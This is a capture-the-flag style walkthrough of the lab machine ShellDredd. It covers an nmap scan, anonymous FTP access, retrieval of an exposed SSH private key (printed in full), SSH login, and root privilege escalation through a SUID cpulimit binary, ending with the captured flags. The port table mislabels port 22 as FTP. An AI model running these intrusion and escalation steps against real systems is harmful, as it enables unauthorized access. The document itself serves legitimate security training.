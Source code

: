 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.174.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:09 EDT
Warning: 192.168.174.130 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.174.130
Host is up (0.068s latency).
Not shown: 64550 closed tcp ports (conn-refused), 983 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.234
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.33 seconds
```

There are two open ports:

| Port  | Service |
| ----- | ------- |
| 22    | ftp     |
| 61000 | ssh     |

### Port 21 (FTP) enumeration

From the Nmap scan we can see that Anonymous login is allowed for FTP. Let's try it.

| Username  | Password  |
| --------- | --------- |
| anonymous | anonymous |

```
$ ftp 192.168.174.130                                                    
Connected to 192.168.174.130.
220 (vsFTPd 3.0.3)
Name (192.168.174.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

```
ftp> ls -la
229 Entering Extended Passive Mode (|||35727|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```

```
ftp> cd .hannah
250 Directory successfully changed.
```

```
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

We can see that there is a `id_rsa` key, which is the private key for SSH.
Before we download the files, we have to turn the passive mode off.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
```

Now we can download `id_rsa` using the `get` command.

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************************************************************************************************|  1823       10.53 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (25.25 KiB/s)
```

On the attacker's machine let's check if the private SSH key is encrypted.

```
$ cat id_rsa                                 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1+dMq5Furk3CdxomSts5UsflONuLrAhtWzxvzmDk/fwk9ZZJMYSr
/B76klXVvqrJrZaSPuFhpRiuNr6VybSTrHB3Db7cbJvNrYiovyOOI92fsQ4EDQ1tssS0WR
6iOBdS9dndBF17vOqtHgJIIJPGgCsGpVKXkkMZUbDZDMibs4A26oXjdhjNs74npBq8gqvX
Y4RltqCayDQ67g3tLw8Gpe556tIxt1OlfNWp3mgCxVLE1/FE9S6JP+LeJtF6ctnzMIfdmd
GtlWLJdFmA4Rek1VxEEOskzP/jW9LXn2ebrRd3yG6SEO6o9+uUzLUr3tv9eLSR63Lkh1jz
n5GAP3ogHwAAA8hHmUHbR5lB2wAAAAdzc2gtcnNhAAABAQDX50yrkW6uTcJ3GiZK2zlSx+
U424usCG1bPG/OYOT9/CT1lkkxhKv8HvqSVdW+qsmtlpI+4WGlGK42vpXJtJOscHcNvtxs
m82tiKi/I44j3Z+xDgQNDW2yxLRZHqI4F1L12d0EXXu86q0eAkggk8aAKwalUpeSQxlRsN
kMyJuzgDbqheN2GM2zviekGryCq9djhGW2oJrINDruDe0vDwal7nnq0jG3U6V81aneaALF
UsTX8UT1Lok/4t4m0Xpy2fMwh92Z0a2VYsl0WYDhF6TVXEQQ6yTM/+Nb0tefZ5utF3fIbp
IQ7qj365TMtSve2/14tJHrcuSHWPOfkYA/eiAfAAAAAwEAAQAAAQEAmGDIvfYgtahv7Xtp
Nz/OD1zBrQVWaI5yEAhxqKi+NXu14ha1hdtrPr/mfU1TVARZ3sf8Y6DSN6FZo42TTg7Cgt
vFStA/5e94lFd1MaG4ehu6z01jEos9twQZfSSfvRLJHHctBB2ubUD7+cgGe+eQG3lCcX//
Nd1hi0RTjDAxo9c342/cLR/h3NzU53u7UZJ0U3JLgorUVyonN79zy1VzawL47DocD4DoWC
g8UNdChGGIicgM26OSp28naYNA/5gEEqVGyoh6kyU35qSSLvdGErTMZxVhIfWMVK0hEJGK
yyR15GMmBzDG1PWUqzgbgsJdsHuicEr8CCpaqTEBGpa28QAAAIAoQ2RvULGSqDDu2Salj/
RrfUui6lVd+yo+X7yS8gP6lxsM9in0vUCR3rC/i4yG0WhxsK3GuzfMMdJ82Qc2mQKuc05S
I96Ra9lQolZTZ8orWNkVWrlXF5uiQrbUJ/N5Fld1nvShgYIqSjBKVoFjO5PH4c5aspX5iv
td/kdikaEKmAAAAIEA8tWZGNKyc+pUslJ3nuiPNZzAZMgSp8ZL65TXx+2D1XxR+OnP2Bcd
aHsRkeLw4Mu1JYtk1uLHuQ2OUPm1IZT8XtqmuLo1XMKOC5tAxsj0IpgGPoJf8/2xUqz9tK
LOJK7HN+iwdohkkde9njtfl5Jotq4I5SqKTtIBrtaEjjKZCwUAAACBAOOb6qhGECMwVKCK
9izhqkaCr5j8gtHYBLkHG1Dot3cS4kYvoJ4Xd6AmGnQvB1Bm2PAIA+LurbXpmEp9sQ9+m8
Yy9ZpuPiSXuNdUknlGY6kl+ZY46aes/P5pa34Zk1jWOXw68q86tOUus0A1Gbk1wkaWddye
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

&nbsp;

## Exploitation

### SSH login using private key

Since we found the private key in the `.hannah` directory, chances are it belongs to the `hannah` user.

Before we log in, we have to set the file permission to `600`.

```
$ chmod 600 id_rsa 
```

Now we can log in as `hannah` using the private SSH key.

```
$ ssh -i id_rsa hannah@192.168.174.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 11 14:27:51 2024 from 192.168.45.234
hannah@ShellDredd:~$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
hannah@ShellDredd:~$ cat local.txt 
7f63370140bf587c7e1d9b96cf46a482
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io/) to search for an exploit for the `cpulimit` utility.

![1](https://github.com/user-attachments/assets/c3662135-4742-453b-85fd-02037f6a2788)

```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1190 detected
# whoami
root
```

### proof.txt

```
# cat /root/proof.txt
6f31c24a8b78ea0271ecfa3da1856390
```
